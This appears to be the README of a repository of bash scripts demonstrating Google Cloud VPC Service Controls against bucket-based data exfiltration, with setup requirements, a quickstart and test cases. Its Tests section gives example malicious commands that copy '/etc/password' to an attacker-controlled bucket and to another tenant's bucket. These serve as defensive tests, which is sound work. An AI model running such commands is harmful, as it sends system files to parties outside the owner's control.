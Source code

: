 # VPC Service Controls demo scripts

VPC Service Controls are an excellent tool to prevent data exfiltration and other attack chains.
This repo supports the blog describing this at ___.

In a nutshell, data exfiltration is easy via GCP Storage Buckets despite best parctices to lock down networking with aggressive network egress policy. 
In order for cloud resources like VMs or Functions to access GCP Storage (other services like Cloud SQL or BigQuery also apply) the network proxy
must whitelist GCPs public dns names for the given services. This means an attacker can create a GCP Storage Bucket and exfiltrate to their own Bucket.
VPC Service Controls solve exactly this problem.

## Requirements

The role running the scripts must have the following permissions:

*    roles/accesscontextmanager.policyAdmin
*    roles/resourcemanager.organizationViewer
*    roles/dns.admin
*    roles/compute.network.*
*    roles/billing.projectManager on the organization
*    roles/billing.user on the billing account

You must have a GCP Organization. Free accounts come with Projects only.
If you do not have one, create one according to [Creating and Managing Organizations](https://cloud.google.com/resource-manager/docs/creating-managing-organization).
We recommend the `G-Suite` path as it worked more smoothly than the `Cloud Identity`.

## Tests
Let's start with what we are trying to prove. Our scripts support a multi-tenant scenario where a tenant can write to buckets in their own project and
a specific bucket in a project shared amongst all tenants.

The following approved bucket activities should succeed assuming we have ssh'd into a vm.
* Create a bucket in the tenant project
* Upload data to the tenant bucket
* Upload data to the tenant's bucket in the shared project
```
vm-in-tenant1-project> gsutil mb gs://tenant1-project-bucket
vm-in-tenant1-project> gsutil cp localfile.txt gs://tenant1-project-bucket
vm-in-tenant1-project> gsutil cp localfile.txt gs://tenant1-shared-project-bucket --project $SHARED_PROJECT_ID --region $REGION
```

The following malicious exfiltration and tampering activities should fail
* Upload malicious data to another tenant's bucket in the shared project
* Exfiltrate data to a victim tenant bucket in the shared project
```
vm-in-tenant1-project> gsutil cp /etc/password gs://attacker-controlled-project-bucket
vm-in-tenant1-project> gsutil cp /etc/password gs://tenat2-shared-project-bucket
```

## Quickstart

```
git clone https://github.com/praetorian-code/vpc-service-controls.git
cd vpc-service-controls
cp .env-sample .env
./create_service_control_project.sh
```

Modify `.env` as needed. It will be ignored by git.

## Troubleshooting

Uncomment the `set -x` line at the top.
This script is not entirely idempotent so you may need to comment out lines on second runs or reset the $RAND, $FOLDER_RAND and $SHARED_RAND variables.
The most likely culprit for problems is not having the correct permissions. Find the line that fails and on the commandline run the following:

```
source .env
<paste and run the failing command>
```

## A more complete multi-tenant script.
The script `create_service_control_project.sh` demonstrates the VPC Service Controls for educational purposes.
A more complete version with some basic security services like configured Logging and Alerts for the malicious activity
is available in `create_service_control_project_full.sh`.


# Design
Why bash scripts? We thought it is most instructive to run commands in an interactive way by pasting individual `gcloud` commands.

Ansible was considered, but it doesn't have support for many of the project/organization commands so it would be a lot of shell commands.

We hope to add Terraform modules and an Ansible playbook for running the tests some time.  Contributions welcome!


